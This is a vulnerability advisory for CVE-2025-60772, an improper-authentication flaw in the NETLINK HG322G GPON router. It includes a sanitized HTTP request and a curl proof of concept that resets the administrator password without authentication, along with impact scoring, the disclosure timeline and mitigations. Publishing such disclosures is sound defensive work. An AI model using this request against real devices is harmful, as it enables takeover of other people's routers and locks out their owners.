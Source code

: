 # CVE-2025-60772 — Improper Authentication in NETLINK HG322G Router

**Title:** NETLINK HG322G Router Improper Authentication Vulnerability  
**CVE ID:** CVE-2025-60772  
**Author / Discoverer:** Sathishkumar M R  
**Status:** Published  
**Public Disclosure Date:** 2025-10-18  
**CVE Assigned Date:** 2025-10-17  
**Severity:** CVSS v3.1 Base Score: 8.2 (High)  
**Overall CVSS (Temporal/Environmental Adjusted):** 7.8

---

## Summary
An improper authentication vulnerability exists in the web management interface of the **NETLINK HG322G GPON ONT** router. An unauthenticated remote attacker can exploit the password reset endpoint `/boaform/getASPdata/new_formPasswordSetup` to reset the administrator password without prior authentication. Since the device supports a single administrator account, successful exploitation results in **privilege escalation** and **denial of service** (the legitimate administrator can be locked out).

---

## Affected Products
- **Vendor:** NETLINK  
- **Product:** HG322G GPON ONT  
- **Hardware Version:** V1.3  
- **Firmware Version:** V1.0.00-231017 *(End of Life)*

---

## Technical Details
The device exposes a password reset endpoint that does not validate session tokens, authentication, or CSRF protections. An unauthenticated attacker with network access (LAN, or WAN if the management interface is exposed) can invoke the endpoint via a crafted HTTP POST to reset the administrator password.

Sanitized example request:

```
POST /boaform/getASPdata/new_formPasswordSetup HTTP/1.1
Host: <router-ip>
Content-Type: application/x-www-form-urlencoded
Content-Length: <len>

username=admin&password=NewP@ssw0rd!
```

Because the router only supports a single admin account, resetting the password with a value the attacker controls grants the attacker full administrative control and locks out the legitimate admin.

---

## Proof of Concept (Sanitized)
> **Warning:** Do not run PoC against devices you do not own or have explicit permission to test.

A non-destructive PoC example (curl):

```bash
# Example (sanitized) — do not run against production or third-party devices
curl -X POST "http://<router-ip>/boaform/getASPdata/new_formPasswordSetup"   -H "Content-Type: application/x-www-form-urlencoded"   -d "username=admin&password=Example123!"
```

Place more detailed PoC artifacts in a `poc/` folder in your repository if needed; avoid including fully-automated exploit scripts in public branches.

---

## Impact
- **Confidentiality:** Low — this flaw primarily resets credentials rather than directly exfiltrating data.  
- **Integrity:** None observed directly — however, with admin access an attacker can change configuration and firmware (leading to broader integrity impact).  
- **Availability:** High — attacker can lock out legitimate admin (DoS of management).  
- **Privilege Escalation:** Yes — unauthenticated attacker gains full administrative privileges.

**CVSS v3.1 Vector (Base/Example):**  
`AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:H/E:P/RL:U/RC:C`  
- **Base Score:** 8.2 (High)  
- **Temporal/Environmental Adjusted:** 7.8 (as shown in provided analysis)

---

## Timeline
- **2025-08-22:** Vulnerability discovered.  
- **2025-08-23:** Reported to vendor (NETLINK).  
- **2025-10-17:** CVE ID assigned (CVE-2025-60772).  
- **2025-10-18:** Public disclosure (this advisory).

---

## Mitigation & Recommendations
- **Disable remote (WAN) web management** on the router.  
- **Restrict management access** to trusted IP addresses (ACLs) or place the device behind a management VLAN.  
- **Replace or isolate** affected devices where possible, since the listed firmware is End of Life and unlikely to receive patches.  
- If vendor provides a fix or firmware update, **apply updates immediately** and validate management interfaces after patching.  
- Monitor for unauthorized configuration changes and unexpected outbound connections from the device.

---

## References
- Vendor product page: https://netlinkict.com/shop/gpon-ont/gpon-ont-hg322g/  
- Official CVE record: https://www.cve.org/CVERecord?id=CVE-2025-60772

---

## Discoverer
**Sathishkumar M R**  
Security Researcher

---

## License
This advisory is published under the [Creative Commons Attribution 4.0 License](https://creativecommons.org/licenses/by/4.0/).
